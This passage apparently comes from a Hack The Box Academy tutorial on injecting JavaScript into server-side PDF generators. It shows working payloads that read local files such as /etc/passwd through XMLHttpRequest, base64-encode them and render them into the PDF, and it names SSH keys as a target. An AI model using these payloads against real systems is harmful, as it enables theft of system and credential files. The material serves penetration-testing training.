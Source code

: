 Injecting this JavaScript code, we can see the content of the `passwd` file in the generated PDF:

![image](https://academy.hackthebox.com/storage/modules/204/pdflfi_1.png)

However, this is impractical for some files since copying data out of the PDF file might break it. For instance, the syntax most likely breaks if we exfiltrate an SSH key. Additionally, we cannot exfiltrate files containing binary data this way. Thus, we should base64-encode the file using the `btoa` function before writing it to the PDF:

```html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(btoa(this.responseText))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

```

However, doing so creates a single long line that does not fit onto the PDF page. Typically, the PDF generation library will not inject linebreaks, resulting in the line being truncated before the end of the page:

![image](https://academy.hackthebox.com/storage/modules/204/pdflfi_2.png)

We can easily modify our payload to inject linebreaks every 100 characters to ensure that it fits on the PDF page:

```html
<script>
	function addNewlines(str) {
		var result = '';
		while (str.length > 0) {
		    result += str.substring(0, 100) + '\n';
			str = str.substring(100);
		}
		return result;
	}

	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(addNewlines(btoa(this.responseText)))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

```

After doing so, we can finally retrieve the file without issues. We can now copy the base64-encoded data and decode it using any tool that ignores the linebreaks in the base64-encoded input, such as [CyberChef](https://gchq.github.io/CyberChef/):
